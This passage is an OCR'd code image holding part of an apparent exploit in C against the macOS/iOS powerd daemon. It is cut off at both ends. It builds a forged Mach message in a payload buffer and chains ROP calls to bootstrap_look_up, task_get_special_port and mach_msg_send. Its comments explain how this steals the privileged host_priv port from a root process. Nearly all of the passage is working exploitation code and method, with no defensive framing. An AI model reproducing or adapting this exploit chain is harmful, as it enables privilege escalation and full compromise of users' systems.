 ```c
    off_t mach_msg_off = payload_address + 0x3000;
    off_t mach_msg_port_off = mach_msg_off + offsetof(struct hp_msg, port.name);
    off_t mach_msg_remote_port_off = mach_msg_off + offsetof(struct hp_msg, hdr.msgh_remote_port);

    uint64_t powerd_bs_fake_service_off = payload_address + 0x3100;
    uint64_t powerd_bootstrap_service_name_off = payload_address + 0x3200;

    uint64_t powerd_task_self_name = 0x103;
#if 0
    printf("msg payload is at 0x%llx\n",mach_msg_off);
    printf("msg port offset  = 0x%llx \n",mach_msg_port_off);
    printf("mach_msg_remote_port_off  = 0x%llx \n",mach_msg_remote_port_off);
    printf("powerd_bootstrap_service_name_off  = 0x%llx \n",powerd_bootstrap_service_name_off);
    printf("bootstrap port 0x%x\n",bootstrap_port);
#endif

    msg.hdr.msgh_size = sizeof(msg);
    msg.hdr.msgh_local_port = MACH_PORT_NULL;
    msg.hdr.msgh_remote_port = 0xdeadbeef; // must be our (fake service) port
    msg.hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE);
    msg.hdr.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    msg.hdr.msgh_id = 0x112233;
    msg.body.msgh_descriptor_count = 1;
    msg.port.name = 0x103;             // this must be overwritten by (rop call) task_get_special_port()
    msg.port.type = MACH_MSG_PORT_DESCRIPTOR;
    msg.port.disposition = MACH_MSG_TYPE_COPY_SEND;

    memcpy(&main_payload[mach_msg_off-payload_address], &msg, sizeof(msg));
    memcpy(&main_payload[powerd_bootstrap_service_name_off-payload_address], FAKE_SERVICE_NAME, strlen(FAKE_SERVICE_NAME));

    /* How to get host_priv  ?
     - Register a fake service with our app group in launchd, then wait for upcoming messages
     - ROP bootstrap_look_up(bootstrap_port,"service_name",&port) // &port's address is &msg.hdr.msgh_remote_port
        this is much more easier and reliable than registering a port set and trying to guess one port of them
     - ROP task_get_special_port(task,TASK_HOST_PORT,&host) // if user is root, host == host_priv, this will overwrite &msg.port.name
     - ROP mach_msg_send(msg): better than calling mach_msg()
     - If SUCCESS, you'll have the host_priv port
     UPDATE : if you want an easy way , just send 0x103 instead without task_get_special_port(), and once received , get host_priv easily
                both methods work,
     */

    rop_u_call((uint64_t)bootstrap_look_up,bootstrap_port,powerd_bootstrap_service_name_off,mach_msg_remote_port_off,0x4444,0x5555,0x6666,restore_registers);
    //rop_u_call((uint64_t)task_get_special_port,powerd_task_self_name,TASK_HOST_PORT,mach_msg_port_off,0x4444,0x5555,0x6666,restore_registers);
    rop_u_call((uint64_t)mach_msg_send,mach_msg_off,-1,-1,-1,-1,-1,restore_registers);
    rop_u_call((uint64_t)sleep,20,-1,-1,-1,-1,-1,0x40404040);

    //printf("kr %s\n",mach_error_string(0x0000000010000003));
#if 0
    kr = mach_msg(&m.hdr,
                  MACH_SEND_MSG,
                  m.hdr.msgh_size,
                  0,
                  MACH_PORT_NULL,
                  MACH_MSG_TIMEOUT_NONE,
                  MACH_PORT_NULL);
```